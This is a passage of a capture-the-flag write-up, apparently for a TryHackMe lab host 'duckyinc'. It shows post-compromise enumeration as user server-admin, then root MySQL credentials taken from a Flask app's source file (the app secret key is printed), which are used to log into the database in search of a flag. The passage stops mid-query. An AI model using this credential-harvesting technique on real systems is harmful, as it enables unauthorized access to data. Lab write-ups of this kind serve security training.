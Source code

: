 ```
uid=1001(server-admin) gid=1001(server-admin) groups=1001(server-admin),33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:90:cb:86:fd:07 brd ff:ff:ff:ff:ff:ff
    inet 10.10.151.170/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2508sec preferred_lft 2508sec
    inet6 fe80::90:cbff:fe86:fd07/64 scope link 
       valid_lft forever preferred_lft forever
```

Nice!!! I'm user `server-admin`!

**`flag2.txt`:**
```
server-admin@duckyinc:~$ cat flag2.txt 
thm{Redacted}
```

**Hmm... Looks like the flag 1 is in the database?**

**After some basic enumerations, I found MySQL root credentials in `/var/www/duckyinc/app.py`, which is the Flask python app:**  
```
server-admin@duckyinc:~$ cat /var/www/duckyinc/app.py 
from flask import Flask, render_template, request, flash
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import create_engine
from flask_bcrypt import Bcrypt

app = Flask(__name__)

app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql+pymysql://root:{Redacted}@localhost/duckyinc'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)
bcrypt = Bcrypt(app)


app.secret_key = b'_5#y2L"F4Q8z\n\xec]/'
eng = create_engine('mysql+pymysql://root:{Redacted}@localhost/duckyinc')
```

**Let's use that credentials to find the flag 1:**
```
server-admin@duckyinc:~$ mysql -uroot -p{Redacted}
[...]
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| duckyinc           |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use duckyinc;

mysql> show tables;
+--------------------+
```